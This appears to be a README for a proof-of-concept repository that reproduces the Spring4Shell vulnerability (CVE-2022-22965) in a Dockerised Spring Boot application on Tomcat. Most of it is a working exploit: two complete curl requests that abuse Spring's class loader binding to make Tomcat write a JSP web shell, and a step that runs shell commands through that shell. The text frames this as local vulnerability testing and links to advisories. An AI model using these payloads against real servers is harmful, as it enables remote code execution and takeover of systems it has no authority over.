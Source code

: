 # Replicate spring shell 0 day vulnerability
This is a POC to test spring shell vulnerability in a spring-boot app on multiple runtimes. You can test spring-boot WAR on Tomcat and spring-boot JAR


## Step 1: Prepare vulnerable service
Below are 2 paths to create a service. One is a spring-boot WAR running on Tomcat and the other is a standalone spring-boot jar executable

### spring-boot WAR on tomcat
1. Run command to:
   - Package a war file
   - Build a tomcat 8 Corretto 11 image
   - Run a container from the image        
 `mvn clean package -P war && docker build . -f Dockerfile-war -t springshell && docker run --name springshell --rm -p 8080:8080 springshell`
2. Run curl command attempts to create a jsp file in the tomcat webapps/ROOT folder. The jsp name is springshell.jsp
   1. If the jsp is not created, there is no vulnerability
```
curl --request POST \
  --url http://localhost:8080/springshell/zeroday \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --header 'c: Runtime' \
  --header 'prefix: <%' \
  --header 'suffix: %>//' \
  --data 'class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di' \
  --data class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp \
  --data class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT \
  --data class.module.classLoader.resources.context.parent.pipeline.first.prefix=springshell \
  --data class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
3. Review jsp content:
`docker exec -it springshell bash -c "cd webapps/ROOT;cat springshell.jsp"`

### spring-boot jar
1. Run command to:
    - Package a jar file
    - Build a Corretto 11 image
    - Create a container from the image        
      `mvn clean package && docker build . -t springshell && docker run --name springshell --rm -p 8080:8080 springshell`
2. Run curl command that attempts to create a jsp file in the tomcat webapps/ROOT folder. The jsp name is springshell.jsp
    1. If the jsp is not created, there is no vulnerability
```
curl --request POST \
  --url http://localhost:8080/zeroday \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --header 'c: Runtime' \
  --header 'prefix: <%' \
  --header 'suffix: %>//' \
  --data 'class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di' \
  --data class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp \
  --data class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT \
  --data class.module.classLoader.resources.context.parent.pipeline.first.prefix=springshell \
  --data class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
3. Check if jsp is present in embedded tomcat ROOT folder:
`docker exec -it springshell bash -c "cd /tmp/tomcat.*.8080/work/Tomcat/localhost/ROOT;ls"`

## Step 2: Exploitation
- Hit this url in the browser and update the shell cmd (_cmd_ query param) to print the result of the command
`http://localhost:8080/springshell.jsp?cmd=pwd`
  - If there is no response or a 404, there is no vulnerability
  - If the output is the response of a shell command execution, __the application is compromised__. Refer remediation steps in the references below

## More 

## Reference
- https://tanzu.vmware.com/security/cve-2022-22965
- https://blog.sonatype.com/new-0-day-spring-framework-vulnerability-confirmed
- https://www.rapid7.com/blog/post/2022/03/30/spring4shell-zero-day-vulnerability-in-spring-framework/